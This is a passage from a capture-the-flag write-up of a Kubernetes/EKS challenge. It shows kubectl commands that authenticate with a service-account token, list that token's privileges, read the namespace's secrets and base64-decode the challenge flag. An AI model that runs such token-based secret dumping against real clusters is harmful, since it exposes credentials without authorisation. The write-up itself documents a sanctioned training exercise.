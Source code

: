 Then I learned, that `kubectl` has a global parameter `--token`, which I could append to any command to authenticate as that user. I could now check the privileges of the token generated.

```
# kubectl auth can-i --list --token=$TOKEN

warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs   Resource Names     Verbs
serviceaccounts/token                           []                  [debug-sa]         [create]
selfsubjectaccessreviews.authorization.k8s.io   []                  []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []                 [create]
pods                                            []                  []                 [get list]
secrets                                         []                  []                 [get list]
serviceaccounts                                 []                  []                 [get list]
.
.
.

```

Now I could check pods and secrets, where I found the flag in the end.

```
# kubectl get pods --token=$TOKEN

No resources found in challenge4 namespace.
```

```
# kubectl get secrets --token=$TOKEN

NAME        TYPE     DATA   AGE
node-flag   Opaque   1      65d
```

```
# kubectl get secrets node-flag -o yaml --token=$TOKEN

apiVersion: v1
data:
  flag: d2l6X2Vrc19jaGFsbGVuZ2V7b25seV9hX3JlYWxfcHJvX2Nhbl9uYXZpZ2F0ZV9JTURTX3RvX0VLU19jb25ncmF0c30=
kind: Secret
metadata:
  creationTimestamp: "2023-11-01T12:27:57Z"
  name: node-flag
  namespace: challenge4
  resourceVersion: "883574"
  uid: 26461a29-ec72-40e1-adc7-99128ce664f7
type: Opaque
```

```
$ echo "d2l6X2Vrc19jaGFsbGVuZ2V7b25seV9hX3JlYWxfcHJvX2Nhbl9uYXZpZ2F0ZV9JTURTX3RvX0VLU19jb25ncmF0c30=" | base64 -d

wiz_eks_challenge{only_a_real_pro_can_navigate_IMDS_to_EKS_congrats}
```


[link]: https://www.wiz.io/blog/announcing-the-eks-cluster-games
[finished]: https://eksclustergames.com/finisher/MuQDdDfl